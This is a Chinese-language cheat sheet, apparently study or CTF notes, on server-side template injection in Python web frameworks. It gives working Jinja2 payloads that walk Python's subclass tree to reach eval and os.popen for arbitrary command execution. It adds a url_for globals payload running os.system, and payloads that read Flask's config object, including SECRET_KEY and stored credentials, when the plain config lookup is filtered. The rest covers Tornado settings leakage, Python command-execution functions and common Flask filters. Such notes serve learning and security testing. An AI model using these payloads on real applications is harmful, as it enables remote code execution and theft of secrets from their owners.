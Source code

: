 ### 服务端fuzz
- 利用 `{%for%}`语句块来在服务端进行 fuzz

```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__=='catch_warnings' %}
  {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}
  {% endif %}
{% endfor %}
```

### Python常用的命令执行方式
1. os.system()：该方法的参数就是 string 类型的命令，在 linux 上返回值为执行命令的 exit 值；而windows上返回值则是运行命令后 shell 的返回值；注意：该函数返回命令执行结果的返回值，并不是返回命令的执行输出（执行成功返回0，失败返回-1）

2. os.popen()：返回的是 file read 的对象，如果想获取执行命令的输出，则需要调用该对象的 read() 方法

## Python-Web框架配置文件
### Tornado
- `handler.settings`：handler.settings-RequestHandler.application.settings，可以获取当前 application.settings，从中获取到敏感信息

### flaks
- 内置函数：config 是 Flask 模版中的一个全局对象，代表"当前配置对象(flask.config)"，是一个类字典的对象，包含了所有应用程序的配置值，在大多数情况下包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值
- url_for()：用于反向解析生成 url
- get_flashed_messages()：用于获取 flash 消息
```python
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}

如果过滤了{{config}}且框架是flask的话便可以使用如下payload进行代替

{{get_flashed_messages.__globals__['current_app'].config}}
{{url_for.__globals__['current_app'].config}}
```

## Flask过滤器
### 定义
- flask 过滤器和其它语言的过滤器作用几乎一致，对数据进行过滤，可以参考 php 伪协议中的 php://filter 协议，支持链式过滤

### 使用方式
```python
变量|过滤器
variable|filter(args)    
variable|filter        //如果过滤器没有参数可以不加括号
```

### 用的过滤器
```python
int()：将值转换为int类型；

float()：将值转换为float类型；

lower()：将字符串转换为小写；

upper()：将字符串转换为大写；

title()：把值中的每个单词的首字母都转成大写；

capitalize()：把变量值的首字母转成大写，其余字母转小写；

```